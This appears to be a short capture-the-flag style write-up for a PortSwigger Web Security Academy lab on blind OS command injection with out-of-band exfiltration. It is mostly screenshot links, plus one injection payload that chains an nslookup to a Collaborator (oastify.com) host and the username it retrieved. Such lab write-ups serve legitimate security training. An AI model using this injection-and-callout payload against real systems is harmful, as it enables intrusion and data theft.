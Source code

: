 ## Lab Description: Blind OS command injection with out-of-band data exfiltration

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bd586d5e-7180-44ee-a974-73f40922d12c)


## Solution:  

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/71c2ea04-abe7-4c76-8496-d72e44a290dd)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f866eff2-de9a-4631-b199-31a7bdf198d6)

`& nslookup 8clb6zquify37iobtzx522hmndt5hw5l.oastify.com #`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5fb56abc-49c9-4fc1-baea-ee8b344ca879)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a2c49c03-71d8-4ed6-8544-545cae72b599)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b90fda15-2ad1-4417-9855-4b8eccc9b4fb)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2660bbde-47c5-4c2e-b859-c48a26eea2a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a52955f0-3acb-4a16-b31f-b8e94655442f)

`peter-UB9jSi`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bc28b9c1-9fb4-4540-8358-a76ec3a169ce)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/00bd3267-bff3-4ad1-af78-0b3c1d260744)
